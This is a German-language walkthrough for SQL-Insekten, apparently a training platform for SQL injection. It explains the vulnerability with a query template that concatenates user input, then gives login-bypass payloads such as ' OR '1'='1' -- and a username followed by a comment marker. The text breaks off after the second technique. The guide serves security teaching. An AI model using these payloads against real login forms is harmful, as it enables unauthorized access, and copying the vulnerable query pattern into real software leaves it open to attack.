 # SQL-Insekten: Vollständige Lösungsanleitung

## Einführung

SQL-Insekten (https://www.sql-insekten.de) ist eine Lernplattform für SQL-Injection-Angriffe. Diese Dokumentation bietet eine systematische Anleitung zur Lösung aller Aufgaben und erklärt die zugrundeliegenden Techniken.

## Grundlagen der SQL-Injektion

### Was ist eine SQL-Injektion?

Eine SQL-Injektion ist eine Schwachstelle, bei der Angreifer durch manipulierte Eingaben in Formularfelder eigene SQL-Befehle einschleusen können. Dies ermöglicht es, Daten auszulesen, zu verändern oder zu löschen.

### Typische verwundbare Implementierung

```sql
SELECT benutzername FROM benutzer 
WHERE benutzername = 'EINGABE' AND passwort = 'MD5(PASSWORT)';
```

## Grundlegende Techniken

### 1. Authentifizierung umgehen

**Ziel:** Login ohne gültige Zugangsdaten

**Technik:** OR-Bedingung immer wahr machen

**Payload:**
```
' OR '1'='1' --
```

**Erklärung:**
- `'` schließt den ursprünglichen String
- `OR '1'='1'` macht die Bedingung immer wahr
- `--` kommentiert den Rest der Query aus

**Resultierende Query:**
```sql
SELECT benutzername FROM benutzer 
WHERE benutzername = '' OR '1'='1' --' AND passwort = '...';
```

### 2. Gezielter Login

**Ziel:** Als bestimmter Benutzer einloggen

**Payload:**
```
alexamusterfrau' --
```
